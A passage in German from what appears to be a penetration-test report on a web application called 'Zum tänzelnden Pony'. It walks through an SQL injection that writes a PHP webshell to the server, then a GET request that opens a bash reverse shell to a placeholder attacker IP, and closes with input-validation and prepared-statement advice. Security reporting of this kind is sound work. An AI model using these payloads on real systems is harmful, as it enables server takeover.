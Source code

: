 Durch den vorherigen Upload einer Webshell ist diese nun unter der Sub-URL \url{/shell1.php} erreichbar. Über den \texttt{cmd} Parameter kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listenner auf dem Angreifer-System erstellt werden (siehe \autoref{listing:netcat-listener}). Danach kann ein passender Angriffsvektor über die Webshell geschickt werden. Dieser HTTP-GET-Request ist in \autoref{listing:pony:reverse_shell} aufgeführt. Ein Nachweis ist in \autoref{fig:09_taenzelndes_pony_proof} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
POST /app/admin/manage_reservation.php HTTP/1.1 
[...]

item%5B%5D=14;SELECT+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>"+into+outfile+ '/var/www/html/shell1.php'&confirm=true
\end{verbatim}
\caption{Webshell Upload mit SQL Injection}
\label{listing:pony:webshell_upload}
\end{listing}


\begin{listing}[!ht]
\begin{verbatim}
GET /shell1.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<Angreifer-IP>/9002+0>%261'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pony:reverse_shell}
\end{listing}


\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/09_taenzelndes_pony_proof.png}
    \caption{Proof für die Webanwendung Zum tänzelnden Pony}
    \label{fig:09_taenzelndes_pony_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection-Angriffe verhindert werden, indem Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}